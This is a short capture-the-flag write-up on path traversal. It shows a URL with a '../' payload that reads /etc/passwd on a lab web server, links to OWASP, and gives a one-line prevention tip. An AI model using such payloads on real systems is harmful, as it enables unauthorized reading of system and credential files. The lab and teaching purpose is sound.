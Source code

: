 # How to get the flag

More info in : https://owasp.org/www-community/attacks/Path_Traversal

You can access files stored outside of the web root folder:
http://192.168.0.10:8080/index.php?page=../../../../../../../etc/passwd

# How to prevent
Sanitize input when searching for a particular folder (remove any "../" from input)

